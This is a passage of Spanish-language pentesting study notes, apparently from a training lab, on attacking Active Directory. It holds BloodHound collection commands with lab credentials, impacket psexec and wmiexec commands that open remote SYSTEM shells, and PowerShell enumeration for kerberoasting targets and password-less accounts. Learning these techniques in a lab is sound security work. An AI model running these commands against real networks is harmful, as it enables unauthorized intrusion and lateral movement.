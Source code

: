 	# Conociendo la ip del servidor DNS (suel ser la misma que el DC)
	sudo bloodhound-python -u 'forend' -p 'Klmcargo2' -ns $target -d inlanefreight.local -c all --zip
	# Conociendo el nombre del dc - Recomendado si tenemos esta información
	bloodhound-python -d INLANEFREIGHT.LOCAL -dc ACADEMY-EA-DC01 -c All -u forend -p Klmcargo2 --zip 
	```
	Guarda un archivo con el formato `bloodhound-output_<fecha>-<hora>.zip`. Si queremos especificar el output, debemos añadir la flag `-op nombre_output`

### Impacket - obtención de shell
Para poder ejecutar los siguientes comandos hacen falta permisos de adminstrador. 
- `psexec.py` - Proporcionará una shell con permisos de `SYSTEM`
	```bash
	impacket-psexec inlanefreight.local/wley:'transporter@4'@$target
	```
- `wmiexec.py` - Lanza un nuevo `cmd.exe` desde `wmi` por cada comando ejecutado (más sigiloso que psexec)
	```bash
	impacket-wmiexec inlanefreight.local/wley:'transporter@4'@$target
	```

## Windows
### Módulo `ActiveDirectory`
- Cargar el módulo y comprobar que está cargado
	```powershell
	Import-Module ActiveDirectory 
	# podemos comprobar que está cargado ejecutando lo siguiente: 
	Get-Module
	```
- Obtener información del dominio - `Get-ADDomain`
	```powershell
	Get-ADDomain
	```
- Obtener usuarios con SPN configurado (kerberoasting) - `Get-ADUser`
	```powershell
	Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
	```
-  Mostrar cuentas sin contraseña requerida
	```powershell
	Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
	```
- Mostrar relaciones de confianza - `Get-ADTrust`
	```powershell
	Get-ADTrust -Filter *
	```
- Enumeración de grupos - `Get-ADgroup`
	```powershell
	Get-ADGroup -Filter * | select name
	# O información detallada de algunos grupos
	Get-ADGroup -Identity "Backup Operators"
	```
- Membresía de grupos (cuentas que pertenecen a un grupo concreto) - `Get-ADGroupMember`
	```powershell
	Get-ADGroupMember -Identity "Backup Operators"